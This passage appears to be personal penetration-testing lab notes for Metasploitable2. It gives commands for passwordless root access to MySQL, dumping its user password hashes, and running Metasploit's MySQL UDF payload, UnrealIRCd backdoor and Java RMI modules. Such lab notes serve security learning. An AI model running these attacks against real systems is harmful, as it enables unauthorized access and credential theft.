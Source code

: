 
### 4.10 MySQL Exploitation (Port 3306) (NOT COMPLETE)

1. **Connect to MySQL**:
    
    ```bash
    mysql -h $TARGET -u root --skip-ssl

    ```
    ![[Pasted image 20250426131501.png]]
    
    - MySQL root often has no password in Metasploitable2
2. **Enumerate Databases**:
    
    ```sql
    SHOW DATABASES;
    USE mysql;
    SELECT user, password FROM user;
    ```
    
3. **MySQL UDF Exploitation with Metasploit**:
    
    ```bash
    msfconsole
    use exploit/multi/mysql/mysql_udf_payload
    set RHOSTS $TARGET
    set PASSWORD ""
    set USERNAME root
    run
    ```
    

### 4.11 IRC Exploitation (Port 6667) (NOT COMPLETE)

1. **Identify UnrealIRCd Version**:
    
    ```bash
    nmap -sV -p 6667 $TARGET
    ```
    
2. **Exploit UnrealIRCd Backdoor**:
    
    ```bash
    msfconsole
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set RHOSTS $TARGET
    run
    ```
    

### 4.12 Java RMI Exploitation (Port 1099) (NOT COMPLETE)

1. **Enumerate RMI Service**:
    
    ```bash
    msfconsole
    use auxiliary/scanner/misc/java_rmi_server
    set RHOSTS $TARGET
    run
    ```
    